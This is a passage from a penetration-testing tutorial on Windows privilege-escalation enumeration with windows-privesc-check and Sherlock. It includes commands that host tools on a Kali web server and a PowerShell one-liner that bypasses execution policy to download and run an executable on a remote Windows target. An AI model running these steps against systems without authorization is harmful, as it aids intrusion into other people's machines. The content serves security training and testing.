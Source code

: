 First we will need to clone the latest version to our environment:

```bash
root@kali:~/tools# git clone https://github.com/pentestmonkey/windows-privesc-check
Cloning into 'windows-privesc-check'...
remote: Enumerating objects: 1232, done.
remote: Total 1232 (delta 0), reused 0 (delta 0), pack-reused 1232
Receiving objects: 100% (1232/1232), 34.79 MiB | 4.61 MiB/s, done.
Resolving deltas: 100% (897/897), done.
```

Next we will need to setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:

```bash
root@kali:~/tools# cd windows-privesc-check/
root@kali:~/tools/windows-privesc-check# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now we will need to transfer the file to our remote windows box:

```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/windows-privesc-check2.exe\", \"C:\\Users\\Public\\Downloads\\windows-privesc-check2.exe\");
```

And now we run the executeable on the remote machine. I like run with all the audit enabled like so:

```
C:\Users\Admin>cd ..
C:\Users>cd Public
C:\Users\Public>cd Downloads
C:\Users\Public\Downloads>windows-privesc-check2.exe --audit -a -o report
windows-privesc-check v2.0svn198 (http://pentestmonkey.net/windows-privesc-check)...
```

The windows-privesc-check will create a detailed HTML report and text based report for your review.

### Running Sherlock

Sherlock is a powershell library with a number of privledge escalation checkers built in. We can stage and run sherlock on a remote http server so the file never needs to hit the remote server's HDD.

```bash
root@kali:~test# git clone https://github.com/rasta-mouse/Sherlock.git
Cloning into 'Sherlock'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 75 (delta 0), reused 2 (delta 0), pack-reused 72
Unpacking objects: 100% (75/75), done.
root@kali:~test# cd Sherlock/
root@kali:~test/Sherlock# ls
LICENSE  README.md  Sherlock.ps1
root@kali:~test/Sherlock# echo Find-AllVulns >> Sherlock.ps1
root@kali:~test/Sherlock# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
